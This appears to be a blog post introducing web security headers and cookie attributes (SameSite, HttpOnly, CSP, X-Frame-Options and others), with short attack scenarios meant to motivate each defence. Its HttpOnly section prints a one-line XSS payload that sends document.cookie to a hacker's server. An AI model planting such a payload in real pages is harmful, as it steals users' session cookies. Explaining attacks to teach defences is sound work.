 ```yaml
---
title: All you have to know about Web Security
description: An thorough introduction on some terms and keywords related to web security. With this post, you can know how to prevent your site from malicious attacks.
date: 2021-05-28
tags:
  - Web Security
  - Cookie
layout: layouts/post.njk
---
```



## SameSite

#### Explanation
  Decide if your cookie can be sent with cross-site request. It's used for preventing [CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF).
#### How hackers attack you

1. You have logged in to your bitcoin wallet of website A and it returned a cookie set in your browser WITHOUT `SameSite` attribute.
2. The hacker send you an email with a fake link
3. You click the link, and it actually sends a POST cross-site request to website A, which withdraws all your money to the hacker's bank account.

#### How to set `SameSite` attribute
  The server-side can return as follows:

> Set-Cookie: key=value; SameSite=Strict

- Reference
  https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite

## HttpOnly:

#### Explanation

A cookie cannot be accessed by JavaScript (i.e by `document.cookie`) and can only be sent to the server automatically. It's used for preventing [XSS](<https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks#cross-site_scripting_(xss)>).

#### How hackers attack you

1. In a forum website, the hacker may leave a comment to the post as follows:

```html
<img src="nothing.gif" onload="sendToHackersServer(document.cookie)" />
```

2. Any other user who enters into this post, their cookies of this forum will be sent to the hacker.

#### How to set `SameSite` attribute
  The server-side can return as follows:

> Set-Cookie: id=a3fWa; Expires=Thu, 21 Oct 2021 07:28:00 GMT; HttpOnly

- Reference
  https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies

## Secure

#### Explanation
  A cookie can only be sent over HTTPS protocol.

#### How to set `Secure` attribute

> Set-Cookie: id=a3fWa; Expires=Thu, 21 Oct 2021 07:28:00 GMT; Secure

## \_\_Host-

#### Explanation
  Prefix the name of the cookie with `__Host-` will enforce `Set-Cookie` header to have `Secure` attribute.

## Referrer-Policy

#### Explanation
  This will decide how much referrer information will be included along with requests. It can be specified as an attribute of `<a>` tag when you're trying to open an external website. Without this, the opened webiste can access the `Referer` header to know referrer information of your site.

#### How to apply it

```html
<a href="https://external-site.com" rel="noreferrer"></a>
```

- Reference
  https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy

## Cross-Origin-Opener-Policy

#### Explanation
  When opening an external site from your site, to prevent the external site to access [window.opener](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener) of your site (which can be used to do malicious behaviour against your site such as CSRF attack).

#### How to apply it

```html
<a href="https://external-site.com" rel="noopener"></a>
```

- Reference
  https://developer.mozilla.org/en-US/docs/Web/HTML/Link_types/noopener

## Content Security Policy

#### Explanation
  This can do more fine-grained control on what [resources](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) the user agent is allowed to load for that page. Even without any setting, default [same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) will be applied.

#### How to apply it
  **Option 1:**
  Return `Content-Security-Policy` HTTP header for each request.

Example:

> Content-Security-Policy: default-src 'self' trusted.com \*.trusted.com

**Option 2:**
Write in HTML `<meta>` tag.

```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; img-src https://*; child-src 'none';"
/>
```

- Reference: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

## X-Content-Type-Options

- Explanation
  It's sent as a response HTTP header to decide if you'd like to opt out from [MIME type sniffing](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types#mime_sniffing) and ask the browser to respect what's specified in `Content-Type` headers. The reason that the browser does MIME type sniffing is that they believe the MIME type is incorrect so they want to make a guess. It involves security concerns because some MIME types are executable contents.

#### How to apply it

```bash
X-Content-Type-Options: nosniff
```

## X-Frame-Options

#### Explanation
  It's sent as a response HTTP header to decide if the browser can render a page in [`iframe`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) or [`embed`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/embed) to prevent [click-jacking attacks](https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks#click-jacking).

#### How hackers attack you

1. The hacker put an action buttion above an `iframe`
2. Inside `iframe`, the hacker render the page of the bitcoin site which you have a wallet in it.
3. You click the action button and think it'll complete certain scenario that the hacker designed for you.
4. What's really going on is that the action button will use you cookie to do cross-site request and transfer all the money from your wallet to hackers' bank account.

#### How to apply it

```bash
X-Frame-Options: DENY
X-Frame-Options: SAMEORIGIN
```

- Reference
  https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options

## Origin and Referrer

#### Explanation
  [Origin](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin) and [Referrer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) are request headers. They are quite similar, which tells where the request originates from, but `Origin` doesn't have path information.

- Example

```bash
Origin: https://developer.mozilla.org
Referer: https://developer.mozilla.org/en-US/docs/Web/JavaScript
```

## Reference

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
